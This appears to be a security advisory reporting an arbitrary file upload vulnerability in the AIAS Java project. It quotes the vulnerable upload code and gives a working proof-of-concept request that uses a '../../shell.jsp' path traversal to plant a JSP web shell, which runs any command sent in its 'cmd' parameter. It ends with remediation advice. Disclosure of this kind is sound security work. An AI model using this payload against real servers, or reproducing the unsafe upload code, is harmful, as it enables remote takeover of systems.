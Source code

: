 # Vulnerability Description

The open source Java AI one-stop solution project "mymagicpower/AIAS" has an arbitrary file upload vulnerability, which allows attackers to upload arbitrary malicious files to any path on the server, resulting in arbitrary code execution.

- Vendors:  [http://aias.top/](http://aias.top/)
  
- Source code address：[https://gitee.com/mymagicpower/AIAS](https://gitee.com/mymagicpower/AIAS)
  

# Vulnerability Analysis

The vulnerability code entry point is located at：

[training_platform/train-platform/src/main/java/top/aias/training/controller/LocalStorageController.java](https://github.com/mymagicpower/AIAS/blob/main/2_training_platform/train-platform/src/main/java/top/aias/training/controller/LocalStorageController.java)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
    //src/main/java/top/aias/training/controller/LocalStorageController.java
    @PostMapping("/file")
    public ResultBean create(@RequestParam("file") MultipartFile multipartFile) {
        FileUtil.checkSize(properties.getMaxSize(), multipartFile.getSize());
        String suffix = FileUtil.getExtensionName(multipartFile.getOriginalFilename());
        String type = FileUtil.getFileType(suffix);
        File file = FileUtil.upload(multipartFile, properties.getPath().getPath() + type + File.separator);
        if (ObjectUtil.isNull(file)) {
            throw new BadRequestException("上传失败");
        }
        try {
            LocalStorage localStorage = new LocalStorage(
                    file.getName(),
                    FileUtil.getFileNameNoEx(multipartFile.getOriginalFilename()),
                    suffix,
                    file.getPath(),
                    type,
                    FileUtil.getSize(multipartFile.getSize())
            );

            localStorageService.addStorageFile(localStorage);
        } catch (Exception e) {
            FileUtil.del(file);
            throw e;
        }
        return ResultBean.success();
    }

    //src/main/java/top/aias/training/utils/FileUtil.java
    public static String getExtensionName(String filename) {
        if ((filename != null) && (filename.length() > 0)) {
            int dot = filename.lastIndexOf('.');
            if ((dot > -1) && (dot < (filename.length() - 1))) {
                return filename.substring(dot + 1);
            }
        }
        return filename;
    }

    //src/main/java/top/aias/training/utils/FileUtil.java
    public static File upload(MultipartFile file, String filePath) {
        Date date = new Date();
        SimpleDateFormat format = new SimpleDateFormat("yyyyMMddhhmmssS");
        String name = getFileNameNoEx(file.getOriginalFilename());
        String suffix = getExtensionName(file.getOriginalFilename());
        String nowStr = "-" + format.format(date);
        try {
            String fileName = name + nowStr + "." + suffix;
            String path = filePath + fileName;
            // getCanonicalFile 可解析正确各种路径
            File dest = new File(path).getCanonicalFile();
            // 检测是否存在目录
            if (!dest.getParentFile().exists()) {
                if (!dest.getParentFile().mkdirs()) {
                    System.out.println("was not successful.");
                }
            }
            // 文件写入
            file.transferTo(dest);
            return dest;
        } catch (Exception e) {
            log.error(e.getMessage(), e);
        }
        return null;
    }
```

As you can see, the external API entry "/file" receives the MultipartFile uploaded by the user and directly passes it to the "FileUtil.upload" function for processing. At the same time, without any security check, the user-controlled file name and suffix are directly referenced as the final file path and name saved on the server, which will form a typical file upload vulnerability.

Attackers can use this vulnerability to upload malicious Trojan files to the victim's server, thereby controlling its server.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file.

The vulnerability proof of concept (POC) is as follows:

```js
POST /api/localStorage/file HTTP/1.1
Host: 127.0.0.1:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxk
Content-Length: 628

------WebKitFormBoundary7MA4YWxk
Content-Disposition: form-data; name="file"; filename="../../shell.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
------WebKitFormBoundary7MA4YWxk--
```

The relevant verification screenshots are shown below:
![图片](https://github.com/user-attachments/assets/ce606371-371a-43c3-8d79-b931aaa8a433)
![图片](https://github.com/user-attachments/assets/6732ecdc-f267-44d5-a572-3dce557b75d1)
![图片](https://github.com/user-attachments/assets/762febe8-9c13-46ba-b4e6-e1bd7d1a2ee1)
![图片](https://github.com/user-attachments/assets/e4ab875b-a9a2-409f-b909-9df9a9d22eb8)


# Security Suggestions

Please limit the uploaded file types and check the file suffixes to prevent attackers from uploading malicious Trojan programs.

At the same time, the uploaded file path needs to be strictly restricted, and it is forbidden to use the file name information transmitted by the front end to splice the final file storage path
